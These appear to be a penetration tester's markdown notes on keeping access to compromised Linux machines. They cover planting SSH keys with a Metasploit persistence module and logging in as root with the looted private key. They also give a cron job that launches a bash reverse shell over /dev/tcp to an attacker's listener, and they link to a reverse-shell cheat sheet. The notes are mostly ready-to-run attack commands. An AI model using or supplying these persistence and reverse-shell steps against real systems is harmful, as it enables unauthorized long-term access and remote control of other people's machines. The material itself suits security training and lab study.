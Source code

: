 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i <pvt_key> <user>@<target_ip>
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- * * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'
- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
